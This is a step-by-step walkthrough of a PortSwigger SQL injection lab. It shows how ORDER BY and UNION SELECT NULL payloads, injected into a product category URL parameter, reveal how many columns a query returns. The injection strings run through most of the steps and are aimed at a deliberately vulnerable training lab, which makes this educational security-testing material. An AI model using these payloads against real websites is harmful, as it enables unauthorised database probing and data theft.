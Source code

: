 # SQL injection UNION attack, determining the number of columns returned by the query

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

## To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

___

step 1

send `/filter?category=Lifestyle` to repeater
send request you will get 4 different item

![screnshot](images/lab3_lifstyle_repeater.jpg)



**Note**: to determine SQL injection UNION attack injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs

URL encoded (Ctrl+u) => select the sentences to make them highlighted press (Ctrl+u) 
>' ORDER BY 1--  => URL encoded  ('+ORDER+BY+1)
>' ORDER BY 2-- => URL encoded ('+ORDER+BY+2)
>' ORDER BY 3-- => URL encoded ('+ORDER+BY+2)
> etc.

``
step 2

add `'+ORDER+BY+1--` at the end
`/filter?category=Lifestyle'+ORDER+BY+1--`

![screnshot](images/lab3_order_by_1.jpg)

step 3

`'+ORDER+BY+2--`
`/filter?category=Lifestyle'+ORDER+BY+2--`

![screnshot](images/lab3_order_by_2.jpg)

step 4

`'+ORDER+BY+3-- `
`/filter?category=Lifestyle'+ORDER+BY+3--`

![screnshot](images/lab3_order_by_3.jpg)

step 5

`'+ORDER+BY+4--`
`/filter?category=Lifestyle'+ORDER+BY+4--`
The ORDER BY position number 4 is out of range of the number of items in the select list. so you get internal error

![screnshot](images/lab3_order_by_4.jpg)



to solve the lab
*determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing `null` values*.

>' UNION SELECT NULL--  => ('+UNION+SELECT+NULL--)
>' UNION SELECT NULL,NULL-- =>('+UNION+SELECT+NULL,NULL--)
>' UNION SELECT NULL,NULL,NULL-- =>('+UNION+SELECT+NULL,NULL,NULL--)
>etc.

**Note: If the number of nulls does not match the number of columns, the database returns an error**

step 6

add `'+UNION+SELECT+NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+NULL--`

![screnshot](images/lab3_lifestyle_repeater_null.jpg)

step 7

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--`

![screnshot](images/lab3_lifestyle_repeater_null_null.jpg)

step 8

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](images/lab3_lifestyle_repeater_null_null_null.jpg)


![screnshot](images/lab3_solved_lab.jpg)